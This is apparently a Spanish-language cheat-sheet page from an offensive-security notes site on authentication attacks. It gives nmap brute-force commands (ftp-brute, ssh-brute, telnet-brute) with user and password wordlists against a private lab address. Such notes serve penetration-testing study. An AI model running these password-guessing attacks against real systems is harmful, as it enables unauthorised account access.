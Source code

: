 ```yaml
---
theme: "just-the-docs"
title: "Ataques de Autenticacion/Login"
layout: default
nav_order: 13
parent: "Seguridad Ofensiva"
---
```

# Ataques de Autenticacion/login
## FTP
### NMAP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## SSH
### NMAP
```bash
nmap -p 22 --script ssh-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## TELNET
### NMAP
```bash
nmap -p 23 --script telnet-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```

